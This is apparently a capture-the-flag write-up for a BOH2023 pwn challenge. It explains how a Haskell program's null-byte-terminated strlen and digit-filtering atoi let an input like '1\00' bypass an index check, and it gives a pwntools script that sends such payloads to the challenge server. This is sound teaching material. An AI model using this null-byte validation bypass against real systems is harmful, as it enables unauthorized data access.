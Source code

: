 ```yaml
---
title : "Vaccines [Pwn]"
categories: BOH2023
---
```


Pwning faulty implementation of `strlen` and `atoi` functions in Haskell.

[src]({{ site.url }}/files/boh2023/vaccines/src){: .btn .btn--info}
[src.hs]({{ site.url }}/files/boh2023/vaccines/src.hs){: .btn .btn--info}

# Going through the program

If you don't know how to read Haskell, don't worry, I don't too...

The whole code was quite readable, and we quickly see where the flag is at.

Line 47:
```rust
    let vaccines = [Vaccine x "some random Vaccine" "03/04/2020" | x <- [0..num]] ++ [Vaccine (num+1) flag "03/04/2020"]
```

`num` is a random value from 10 to 100 (exclusive), and our flag is at index `num`.

Looking at the code, this is just another program with menu functions

1. View vaccine: Give Vaccine ID (index), and it will print out the vacine ID, description, date.
2. Edit vaccine: Give Vaccine ID (index), and you can input a new description and date for that vaccine.
3. Exit: ... no explanations needed.

So we just read the vaccine at that index? **WRONG**

```
What do you want to do?
1. View Vaccine
2. Edit Vaccine
3. Exit
1
Enter Vaccine ID:
10
Invalid Vaccine ID
```

There is an error upon inputting any index >= 10. We see the culprit of this annoying error:

```rust
        putStrLn "Enter Vaccine ID: "
        input <- getLine
        if (strlen input == 1 && input !! 0 /= '0') then do
            let id = atoi input
            if (id >= 0 && id < Prelude.length vaccines) then do
                printVaccine $ vaccines !! id
                loop
```

There are two conditions that our input must satisfy:

1. `strlen input == 1`: The length of the string is 1
2. `input !! 0 /= '0'`: The index 0 character is not '0'

One last thing before we go to the solution: our input is passed into `atoi` to convert it from string to integer, before using it as the index to `vaccines`.

# Solution

We see that condition 2 is already satisfied by our inputs, so we look at condition 1.

```rust
strlen :: String -> Int
strlen input = Prelude.length $ Prelude.takeWhile (/= '\0') input
```

We see that `strlen` takes a `String` and returns an `Int`, and it just takes and counts the characters until a `\0` (null byte) is met, which is what we're used to with C strings. But wait...

{% include image.html url="/assets/images/boh2023/vaccines_chatgpt.png" description="bamboozled" %}

Which means that, an input of `1\0XXXX...` will be regarded as length 1 even though it really isn't.

```rust
atoi :: String -> Int
atoi input = do
    let input' = Prelude.filter (\x -> x >= '0' && x <= '9') input
    Prelude.read input' :: Int
```

Looking at `atoi`, we see that it just filters out for characters that are `0-9`. So, if we input `1\00`, it will be regarded as having length 1, and has value of integer 10. Similarly, `4\09` is 49 etc.

So, we just write a script to run through the index 10 to 100, and stop when we get the flag.

# Final Script
```python
from pwn import *

DEBUG = False

conn = process("./src") if DEBUG else remote("54.158.139.58", 1237)

def select(ind):
    conn.recvuntil(b"Exit")
    conn.recvline()
    if type(ind) == str:
        ind = ind.encode()
    conn.sendline(ind)

def chooseID(ind):
    conn.recvuntil(b"ID:")
    conn.recvline()
    if type(ind) == str:
        ind = ind.encode()
    conn.sendline(ind)

for i in range(10, 100):
    select("1")

    tens = str(i)[0].encode()
    ones = str(i)[1].encode()
    chooseID(tens + b"\x00" + ones)

    if b"Invalid" in conn.recvline():
        break

    conn.recvuntil(b": ")
    print(conn.recvline(keepends=False))
```
